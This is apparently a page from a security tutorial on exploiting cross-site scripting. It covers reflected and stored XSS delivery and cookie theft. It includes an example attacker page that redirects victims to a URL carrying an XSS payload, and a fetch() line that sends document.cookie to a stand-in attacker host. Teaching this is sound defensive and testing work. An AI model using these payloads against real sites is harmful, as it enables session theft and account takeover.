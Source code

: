 Making an `alert()` pop up is cool, but to show the impact it might be necessary to exploit what an XSS or JavaScript execution gives you. The summary is that you can do almost everything a user can do themselves, but do this for them. You can click buttons, request pages, post data, etc. which open up a large field of impact, depending on what an application lets the user do.&#x20;

### From another site

The _Cross-Site_ in XSS means that it should be exploitable from another malicious site, which can then perform actions on the victim's behalf on the target site. It is always a good idea to test exploits locally first with a simple web server like `php -S 0.0.0.0:8000`, and when you need to exploit something remotely it can be hosted temporarily with a tool like [ngrok](https://ngrok.com/), or permanently with a web server of your own.&#x20;

The easiest is **Reflected XSS**, which should trigger when a specific URL is triggered. If someone visits your page, you can simply redirect them to the malicious URL with any payload to trigger the XSS:

{% code title="Example attacker page" %}
```html
<script>
    location = "https://target.com/endpoint?xss=<style onload=alert()>"
</script>
```
{% endcode %}

{% hint style="info" %}
Note that [URL Encoding](https://gchq.github.io/CyberChef/#recipe=URL_Encode\(true\)\&input=PHN0eWxlIG9ubG9hZD1hbGVydCgpPg) might be needed on parameters to make sure special characters are not part of the URL, or to simply obfuscate the payload
{% endhint %}

For **Stored XSS**, a more likely scenario might be someone else stumbling upon the payload by using the site normally, but if the location is known by the attacker they can also redirect a victim to it in the same way as Reflected XSS as shown above.&#x20;

Some exploits require more complex interaction between the attacker and the target site, like `<iframe>`'ing (only if [#content-security-policy-csp](cross-site-scripting-xss.md#content-security-policy-csp "mention") and `X-Frame-Options` allows) or opening windows (only when handling user interaction like pressing a button with `onclick=`).&#x20;

### Stealing Cookies

In the early days of XSS, this was often the target vector for exploitation, as session cookies could be stolen and exfiltrated to an attacker to later impersonate them on demand. This is done with the `document.cookie` variable that contains all cookies as a string. Then using `fetch()` a request containing this data can be made to the attacker's server to read remotely:

```javascript
fetch("http://attacker.com/leak?cookie=" + document.cookie)
```

Pretty often, however, modern frameworks will set the `httpOnly` flag on cookies which means they will **not** be available for JavaScript, only when making HTTP requests. This `document.cookie` variable will simply not contain the cookie that the flag is on, meaning it cannot be exfiltrated directly. But the possibilities do not end here, as you can still **make requests** using the cookies from within JavaScript, just not directly read them.&#x20;
